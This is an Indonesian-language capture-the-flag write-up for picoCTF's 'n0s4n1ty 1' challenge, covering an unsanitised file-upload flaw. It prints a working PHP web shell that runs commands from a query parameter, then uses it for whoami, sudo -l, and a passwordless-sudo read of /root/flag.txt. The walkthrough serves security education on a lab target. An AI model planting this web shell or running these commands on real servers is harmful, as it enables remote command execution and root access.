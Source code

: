 # n0s4n1ty 1

Pengembang telah menambahkan fungsionalitas unggahan gambar profil ke situs web. Namun, implementasinya cacat, dan menghadirkan peluang bagi Anda. Misi Anda, jika Anda memilih untuk menerimanya, adalah menavigasi ke halaman web yang disediakan dan menemukan area unggahan file. Tujuan utama Anda adalah menemukan bendera tersembunyi yang terletak di direktori.

### Petunjuk

1. Unggah file tidak disanitasi
2. Setiap kali Anda mendapatkan shell di mesin jarak jauh, periksa

```bash
sudo -l
```

## Documentation

1. Pertama -tama pergi ke instance dan Anda akan melihat kerentanan unggahan file. Jadi, skrip semacam apa pun dapat diunggah

![App Screenshot](/images/5.png)

2. Lalu saya membuat shell php ini dan diunggah ke server:

```bash
  <?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>
```

File utama dapat diakses [disini](/NOSANITY/n0s4n1ty-1.php).

3. Maka perintah apa pun dapat dieksekusi dengan memicu jalur:
   Endpoint: uploads/n0s4n1ty-1.php?cmd=

```bash
http://standard-pizzas.picoctf.net:63914/uploads/n0s4n1ty-1.php?cmd=
```

- Mari kita periksa pengguna saat ini:

```bash
http://standard-pizzas.picoctf.net:63914/uploads/n0s4n1ty-1.php?cmd=whoami
```

- Sekarang mari kita lihat hak istimewa untuk pengguna saat ini:

```bash
http://standard-pizzas.picoctf.net:63914/uploads/n0s4n1ty-1.php?cmd=sudo -l
```

- Setelah mengeksekusi peerintah diatas, maka akan muncul seperti ini

```bash
Matching Defaults entries for www-data on challenge:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```

```bash
(ALL) NOPASSWD: ALL
```

- Jadi, tidak ada kata sandi yang diperlukan untuk mengakses pengguna dan root mana pun.

- Sekarang mari kita dapatkan flag sebagai pengguna root:

```bash
http://standard-pizzas.picoctf.net:63914/uploads/n0s4n1ty-1.php?cmd=sudo cat /root/flag.txt
```

- Setelah perintah diatas dijalankan maka kita akan dapat menemukan flag-nya.
